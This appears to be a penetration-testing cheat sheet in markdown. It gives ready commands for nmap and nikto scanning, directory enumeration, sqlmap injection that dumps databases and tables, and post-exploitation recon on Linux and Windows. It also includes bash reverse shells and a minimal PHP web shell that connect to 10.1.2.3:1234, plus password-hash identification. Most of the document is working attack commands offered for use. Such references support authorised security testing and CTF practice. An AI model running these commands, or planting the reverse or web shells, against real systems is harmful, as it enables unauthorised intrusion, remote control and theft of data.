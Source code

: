 # Recon and Initial Access

## Nmap
Scan all TCP ports quickly
```
nmap -Pn -n -v -sT -p- -T5 10.0.1.2
```

In-depth scan specific ports
```
nmap -Pn -n -v -sT -p 22,80 -A 10.0.1.2
```

## WebApp Scanners
Nikto vulnerability scanner
```
nikto -h 10.1.2.3 -C all
```

[whatweb](https://www.kali.org/tools/whatweb/) web technology identifier
```
whatweb -v -a 3 192.168.0.102
```

## WebApp Enumeration
Path enumeration with dirbuster:
```
dirb http://10.10.11.253
```

## SQL Injection - SQLMap
Check fields in HTTP GET
```
sqlmap -u "http://10.2.3.4/path/vulnerable.php?fieldname=value" -p fieldname --level 5 --risk 3 --dbs
```

Use intercepted request from Burp:
```
sqlmap -r request.txt ...
```

Dump databases:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 --dbs
```

Dump tables for given database:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 -D db_name --tables
```

Dump given table for given database:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 -D db_name -T table_name --dump
```

## Reverse Shells

### Netcat Receiver
```
nc -lvnp [receiving port]
```

### Bash TCP
```
/bin/bash -i >& /dev/tcp/10.1.2.3/1234 0>&1
/bin/bash -l > /dev/tcp/10.1.2.3/1234 0<&1 2>&1
```
[ref](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)

### Minimal php
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.1.2.3/1234 0>&1'");
?>
```

# Post-Exploitation Recon (Linux)
User info, groups, etc
```
whoami
groups
```

Available sudo options
```
sudo -l
```

# Post-Exploitation Recon (Windows)
Get the full command line for a process (PowerShell)
```PowerShell
gwmi win32_process | Format-Table -Property ProcessId,commandline | findstr targetprocessname|pid
```

# Credential Access
## Password Hashes
Lookup hash type:
```
hashid -m "hash"
```

```
$ hashid -m '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
Analyzing '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
